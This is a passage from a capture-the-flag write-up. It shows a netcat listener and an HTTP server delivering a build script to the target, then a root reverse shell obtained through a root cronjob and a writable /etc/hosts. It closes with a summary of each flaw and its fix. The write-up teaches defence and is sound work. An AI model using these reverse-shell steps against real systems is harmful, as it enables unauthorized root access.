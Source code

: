```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
```

After a minute or so, we should see a request for the `buildscript.sh` on the server, and the incoming reverse shell connection on netcat :

```console
┌──(kali㉿kali)-[/tmp/dead]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.31.26 - - [05/Sep/2021 23:20:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [NO_MATE_NOT_HERE_EITHER] from (UNKNOWN) [10.10.31.26] 60674
bash: cannot set terminal process group (2800): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.

## Summary and Solutions

So what went wrong here ? Everything, more or less. 

1. The "SessionToken" cookie is not correctly managed server side ; any value provides access to the admin panel.
2. Access to the admin panel provides access to a private RSA key with a weak passphrase (!?!).
3. /etc/hosts is globally writable, allowing malicious users to systematically redirect traffic for trusted domains.
4. The cronjob responsable for updating the builds runs as root, downloading a script from a domain defined in the writable `/etc/hosts` and piping it directly into bash.

And what could have been done to prevent it?
1. [OWASP provides the basic guide to effective server side session management](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication) ; the application should at least (at the very least) check the value and validity of the "SessionToken" cookie.
2. Don't publish private keys on your website. Easy!
3. Write access to `/etc/hosts` should only be available to root (644 - root read and write, all other users read). A writable `/etc/hosts` file effectively removes the concept of a "trusted domain" and is the root cause of the privesc vulnerability.
4. The principle of least privilege should be used when scoping permissions for cronjobs. In this case, the `buildscript.sh` script only requires execute access to the Go binary and write access to the web application's root folder - the job should be run by a user with appropriately scoped privileges.